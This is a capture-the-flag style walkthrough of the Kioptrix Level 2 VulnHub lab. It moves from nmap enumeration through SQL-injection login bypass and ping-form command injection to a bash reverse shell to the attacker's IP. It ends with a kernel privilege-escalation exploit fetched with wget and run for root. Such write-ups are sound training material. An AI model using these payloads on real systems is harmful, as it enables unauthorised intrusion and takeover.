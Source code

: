 ```yaml
---
layout: post
title:  Kioptrix Level 2 Writeup
categories: [vulnhub]
tags: [Writeup]
---
```



# Objective

Get root access via any means.

# Enumeration

Find the target ip:

```bash
└─$ sudo arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:ad:36:56, IPv4: 10.10.10.129
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
10.10.10.1      00:50:56:c0:00:08       VMware, Inc.
10.10.10.2      00:50:56:ed:49:99       VMware, Inc.
10.10.10.133    00:0c:29:50:1f:1f       VMware, Inc.
10.10.10.254    00:50:56:e5:1b:02       VMware, Inc.
```

The target ip is 10.10.10.133.

Detect ports, services and some known vulnerabilities:

```bash
# Nmap 7.91 scan initiated Fri Nov  4 06:58:51 2022 as: nmap -A -p 1-1100 -oN nmap_result.txt 10.10.10.133
Nmap scan report for 10.10.10.133
Host is up (0.0020s latency).
Not shown: 1094 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp  open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            752/udp   status
|_  100024  1            755/tcp   status
443/tcp open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2022-11-04T06:35:42+00:00; -4h23m24s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_RC4_64_WITH_MD5
631/tcp open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
755/tcp open  status   1 (RPC #100024)

Host script results:
|_clock-skew: -4h23m24s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  4 06:59:06 2022 -- 1 IP address (1 host up) scanned in 14.75 seconds
```

Since it has port 80 open, so next I will try opening its web pages.

# Exploitation

![](/img/posts/kioptrix-level-2-writeup-1.jpg)

There's a login form. So the first thing came to my mind is sql injection.

I tried several sql commands to make a quick test.
I tried the following for both username and password:

admin'

admin'--

admin' or '1' = '1

And luckily the last one worked! I logged in successfully:
![](/img/posts/kioptrix-level-2-writeup-2.jpg)

Now there's another web page:
![](/img/posts/kioptrix-level-2-writeup-3.jpg)

It tells me I can execute ping tests. Usually this might have command injection vulnerabilities.
To verify my hypothesis, I added ls command after ping:
![](/img/posts/kioptrix-level-2-writeup-4.jpg)

which apparently worked:
![](/img/posts/kioptrix-level-2-writeup-5.jpg)
The directory content is listed after ping.
So next I tried to inject a bash reverse shell instead of ls command.
But before that, I should start a listener:
![](/img/posts/kioptrix-level-2-writeup-6.jpg)

Now it's time to start injecting bash shell:
![](/img/posts/kioptrix-level-2-writeup-7.jpg)

The full command is below:
```bash
127.0.0.1 & bash -i >& /dev/tcp/10.10.10.129/4444 0>&1
```

OK, I'm in.
![](/img/posts/kioptrix-level-2-writeup-8.jpg)

But I'm user apache, not root. So I need to do a privilege escalation.
I'm trying looking for its kernel vulnerabilities first.
Got its kernel version and type:
![](/img/posts/kioptrix-level-2-writeup-9.jpg)

![](/img/posts/kioptrix-level-2-writeup-10.jpg)

Searching for vulnerabilities via searchsploit:
```bash
──(kali㉿kali)-[~/kioptrix_lv2]
└─$ searchsploit Linux Kernel escalation
```
In the output below, I'm going to use the payload 9574.txt:
![](/img/posts/kioptrix-level-2-writeup-11.jpg)

```bash
┌──(kali㉿kali)-[~/kioptrix_lv2]
└─$ searchsploit -m linux/local/9574.txt                                                     1 ⨯
  Exploit: Linux Kernel < 2.6.19 (x86/x64) - 'udp_sendmsg' Local Privilege Escalation (2)
      URL: https://www.exploit-db.com/exploits/9574
     Path: /usr/share/exploitdb/exploits/linux/local/9574.txt
File Type: ASCII text, with CRLF line terminators

Copied to: /home/kali/kioptrix_lv2/9574.txt
```

In the content of the txt file, it leads me to another file which I think maybe the real payload script:
![](/img/posts/kioptrix-level-2-writeup-13.jpg)

After having downloaded the compressed file, I start an http server on the kali linux for sharing the file:
```bash
┌──(kali㉿kali)-[~/kioptrix_lv2]
└─$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

On the victim VM, downloading the file and decompress it:
```bash
bash-3.00$ wget http://10.10.10.129:8000/9574.tgz
--05:26:16--  http://10.10.10.129:8000/9574.tgz
           => `9574.tgz'
Connecting to 10.10.10.129:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4,359 (4.3K) [application/x-gtar-compressed]

    0K ....                                                  100%  415.71 MB/s

05:26:16 (415.71 MB/s) - `9574.tgz' saved [4359/4359]
bash-3.00$ tar zxvf 9574.tgz
therebel/
therebel/exploit.c
therebel/pwnkernel.c
therebel/therebel.sh
```

So there comes a subdirectory named therebel. 
Switch into it and run therebel.sh:
```bash
bash-3.00$ cd therebel  
bash-3.00$ ls -l
total 20
-rw-r--r--  1 apache apache 9922 Sep  2  2009 exploit.c
-rw-r--r--  1 apache apache  782 Sep  2  2009 pwnkernel.c
-rwxr--r--  1 apache apache 1471 Sep  2  2009 therebel.sh
bash-3.00$ ./therebel.sh
sh: no job control in this shell
sh-3.00# whoami
root
sh-3.00# 
```
Alright, well done!
